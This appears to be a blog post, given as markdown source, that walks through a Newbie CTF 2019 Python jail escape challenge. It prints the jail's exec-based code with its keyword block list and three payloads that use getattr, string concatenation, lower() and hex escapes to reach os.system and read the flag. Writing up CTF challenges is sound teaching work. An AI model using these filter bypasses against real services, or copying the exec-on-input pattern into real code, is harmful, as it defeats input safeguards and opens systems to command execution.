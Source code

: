 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019)"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
tags:
  [
    "Python",
    "ctf",
    "ethical hacking",
    "security",
    "Newbie CTF",
    "Newbie CTF 2019",
    "pyjail",
    "bash",
    "data",
    "built-in methods",
    "getattr",
  ]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

The jail is basically a set of python code that is executed on the python process when the user executes certain commands, in this case entering specific lines of text. This is possible since Python allows passing parameters to the application. In this particular case, the script only checks if the command passed is not banned.

![Python jail Escape](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

```bash
Hi! Welcome to pyjail!
========================================================================
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
print(“Hi! Welcome to pyjail!”)
print(“========================================================================”)
print(open(__file__).read())
print(“========================================================================”)
print(“RUN”)
text = input(‘>>> ‘)
for keyword in [‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’]:
if keyword in text:
print(“No!!!”)
return;
else:
exec(text)
if __name__ == “__main__”:
main()
========================================================================
RUN
```

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called `import` and pass it the input `os`. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **built-in** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

```bash
>>> print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls .'))
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
>>> print(getattr(getattr(globals()[‘__builtins__’], ‘__im’+’port__’)(‘o’+’s’), ‘sys’+’tem’)(‘cat home/python_jail/flag’))

KorNewbie{H311oh0w@r3_y0u_d0lng?}
```

Another solution to the Capture the Flag challenge is to use lower() string method:

```bash
>>>__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)
```

We could also encode the strings to display the hidden key:

```bash
>>> print(getattr(getattr(getattr(main, ‘__globals__’)[‘__builtins__’], ‘\x6f\x70\x65\x6e’)(‘/home/python_jail/flag’, ‘rb’), ‘\x72\x65\x61\x64’)())
b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
